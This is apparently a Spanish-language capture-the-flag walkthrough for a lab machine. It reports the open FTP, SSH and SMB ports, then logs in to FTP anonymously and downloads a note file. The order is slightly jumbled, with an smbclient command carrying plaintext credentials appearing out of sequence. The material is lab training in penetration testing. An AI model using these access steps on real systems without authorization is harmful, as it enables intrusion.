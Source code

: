 ```bash
```

así nos dará todos los puertos que están abierto.

- Puertos Abiertos:

- **Puerto 21** (servicio FTP, vsftpd 3.0.5)
- **Puerto 22** (servicio SSH, OpenSSH)
- **Puerto 139** (protocolo NetBIOS, Samba)
- **Puerto 445** (protocolo SMB, Samba)

Una vez escaneado los servicios se observa que el puerto 21 con servicio FTP te permite acceder como Anonymous, así que accederemos.

```bash

smbclient //172.17.0.2/macarena -U macarena%donald


luego se introduce el usuario y contraseña: que es anonymous

❯ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
ftp> 
ftp> 
ftp> ls
229 Entering Extended Passive Mode (|||57888|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              69 Aug 19  2024 nota.txt
226 Directory send OK.
ftp> ls -la
229 Entering Extended Passive Mode (|||16910|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 19  2024 .
drwxr-xr-x    2 0        0            4096 Aug 19  2024 ..
-rw-r--r--    1 0        0              69 Aug 19  2024 nota.txt
226 Directory send OK.
```

Encontramos el fichero **nota.txt** lo descargamos, cerramos la conexión **FTP** y procedemos a inspeccionar el contenido descargado:

```bash
get nota.txt
------------------------------------
local: nota.txt remote: nota.txt
229 Entering Extended Passive Mode (|||32003|)
150 Opening BINARY mode data connection for nota.txt (69 bytes).
100% |*****************************************************************************************|    69      209.91 KiB/s    00:00 ETA
226 Transfer complete.
69 bytes received in 00:00 (77.89 KiB/s)
```
